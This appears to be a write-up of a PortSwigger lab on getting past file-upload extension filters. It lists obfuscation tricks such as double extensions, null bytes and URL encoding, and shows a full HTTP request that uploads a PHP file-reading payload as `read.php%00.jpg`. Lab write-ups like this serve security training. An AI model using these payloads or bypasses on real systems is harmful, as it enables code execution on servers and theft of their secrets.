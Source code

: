 ## Lab Description :

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/d6b467a7-692b-4d62-a041-782a96b7b269)

## Overview :

### Obfuscating file extensions

Even the most exhaustive blacklists can potentially be bypassed using **classic obfuscation techniques**. Let's say the validation code is case sensitive and **fails to recognize that `exploit.pHp` is in fact a `.php` file**. If the code that subsequently maps the file extension to a MIME type is not case sensitive, this discrepancy allows you to sneak malicious PHP files past validation that may eventually be executed by the server. 

 You can also achieve similar results using the following techniques:

- **Provide multiple extensions**- `exploit.php.jpg`
- **Add trailing characters**- Some components will strip or ignore trailing whitespaces, dots, and suchlike: `exploit.php.`
- **URL encoding (or double URL encoding) the dots, forward slashes, and backward slashes** -  If the value isn't decoded when validating the file extension, but is later decoded server-side, this can also allow you to upload malicious files that would otherwise be blocked: `exploit%2Ephp`
- **Add semicolons or URL-encoded null byte characters before the file extension** - If validation is written in a high-level language like PHP or Java, but the server processes the file using lower-level functions in C/C++, for example, this can cause discrepancies in what is treated as the end of the filename: `exploit.asp;.jpg` or `exploit.asp%00.jpg`
- Try using **multibyte unicode characters**, which may be converted to _null bytes and dots after unicode conversion or normalization_. Sequences like `xC0 x2E`, `xC4 xAE` or `xC0 xAE` may be translated to `x2E` **if the filename parsed as a UTF-8 string**, but then converted to ASCII characters before being used in a path.

> Other defenses involve stripping or replacing dangerous extensions to prevent the file from being executed. If this transformation isn't applied
> recursively, you can position the prohibited string in such a way that removing it still leaves behind a valid file extension. For example, consider
> what happens if you strip `.php` from the following filename: `exploit.p.phphp`

## Solution :

Log in as wiener using the credentials provided. Upload a *.php* file with the contents : `<?php echo file_get_contents('/home/carlos/secret'); ?>`

The following is the POST request sent when uploading an avatar.

```
POST /my-account/avatar HTTP/1.1
Host: 0a87008704f75da98037b8c300a60099.web-security-academy.net
Cookie: session=iDD3MDQvlWdNxVZsP37i3wNB6JgGcov3
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: multipart/form-data; boundary=---------------------------6170160073347684872772099132
Content-Length: 535
Origin: https://0a87008704f75da98037b8c300a60099.web-security-academy.net
Referer: https://0a87008704f75da98037b8c300a60099.web-security-academy.net/my-account?id=wiener
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Te: trailers
Connection: close

-----------------------------6170160073347684872772099132
Content-Disposition: form-data; name="avatar"; filename="read.php"
Content-Type: application/x-php

<?php echo file_get_contents('/home/carlos/secret'); ?>

-----------------------------6170160073347684872772099132
Content-Disposition: form-data; name="user"

wiener
-----------------------------6170160073347684872772099132
Content-Disposition: form-data; name="csrf"

ECWAM2zUPdHzP1UJam8yAr0TIumvPr9Q
-----------------------------6170160073347684872772099132--
```
Since we uploaded a .php file we get a response stating that only JPG & PNG files are allowed.

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/5d8f3d8a-d0ab-42a0-b17f-75a1c5d6a92f)


So I tried various obfuscating ways but he one that worked for me is changeing the filename parameter to - `filename="read.php.jpg"` 

The server just checks that it ends with *.jpg* , if YES then the file is uploaded. This is a very weak defense mechanism being implemented.

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/e254d0d3-d027-463d-b226-f792c23981e1)

But when we try to access the file, we get this error

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/efe5b6b6-770c-4ee5-8bc8-160edd4bd3ef)

Thjs is beacuse the file is saved with .jpg extension, so the server is facing error when processing it since it considers it as a jpg file.

To prevent this , we need to somehow make the server execute this as a .php file. For this we can use `%00` **nullbyte** character before the extension.

ie - `read.php%00.jpg` . This way when the server processes the file  using lower-level functions in C/C++, it treats nullbyte as end of string  & thus it is validated as  **read.php** and finally executes it.

So when we chaange `filename="read.php%00.jpg"` and forward the request, we get a response stating that **read.php** has been uploaded .

> Notice that the server response is **read.php** and not **read.php.jpg**

Now we can read the file at */files/avatars/read.php* to get the secret key of carlos.

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/351bbb5e-01b6-47bc-8fa5-2bf716979ddf)

Submit the key to solve the lab.

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/327afa21-769d-45b8-adf4-e7f8584c6f91)

